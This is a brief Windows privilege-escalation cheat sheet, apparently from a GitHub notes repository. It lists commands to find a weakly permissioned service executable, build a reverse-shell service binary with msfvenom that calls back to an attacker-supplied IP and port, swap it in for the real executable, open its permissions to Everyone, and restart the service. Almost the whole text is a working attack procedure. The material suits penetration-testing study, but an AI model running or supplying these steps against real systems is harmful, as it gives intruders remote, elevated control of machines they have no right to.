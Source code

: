 Firstly, find a modifiable service executable

	sc qc [service]
	icacls [service executable]

After finding the service executable, create a malicious service executable

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=[Attacker IP] LPORT=[Attacker port] -f exe-service -o rev-svc.exe

Then, after creating a backup of the service executable, overwrite it with the malicious version

	move [service executable] [service executable].bkp
	move rev-svc.exe [service executable]
	icacls [service executable] /grant Everyone:F

Finaly, after setting up a listener, restart the service

	sc stop [service]
	sc start [service]